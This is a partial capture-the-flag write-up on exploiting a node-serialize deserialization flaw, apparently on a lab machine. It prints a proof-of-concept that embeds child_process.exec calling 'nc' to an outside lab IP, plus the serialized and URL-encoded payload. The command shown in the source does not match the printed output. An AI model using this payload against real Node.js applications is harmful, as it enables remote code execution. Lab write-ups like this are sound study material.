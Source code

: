 It seems that `node-serialize` library is being used, so I checked the cookie of the `admin` user and took note of their cookie:

```shell
%7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
# URL Decoded
{"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
```

If I decode it seems to be a json containing the user and its hashed passwd.

## Weaponization x2

I searched "nodejs deserialization exploit" and found [OPSECX](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/).

## Exploitation x3

First I created a `serialize.js` to to create a PoC for the output of the `id` command:

```js
var y = {
rce : function(){
require('child_process').exec('nc 10.10.14.36 777', function(error, stdout,
stderr) { console.log(stdout) });
 },
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```

- NOTE: I needed to install `node-serialize` library with `npm install node-serialize`

The result of executing it is the following (`node serialize.js`):

```shell
{"rce":"_$$ND_FUNC$$_function (){\n \t require('child_process').exec('ping -c 1 10.10.14.36',
function(error, stdout, stderr) { console.log(stdout) });\n }()"}
# URL Encoded
%7B%22rce%22%3A%22%5F%24%24ND%5FFUNC%24%24%5Ffunction%28%29%7Brequire%28%27child%5Fprocess%27%29%2Eexec%28%27ping%20%2Dc%201%2010%2E10%2E14%2E36%27%2C%20function%28error%2C%20stdout%2C%20stderr%29%7Bconsole%2Elog%28stdout%29%7D%29%3B%7D%28%29%22%7D
```

==IMPORTANT: the machine doesn't actively work, so I won't continue this writeup, but the initial steps are valuable for me.==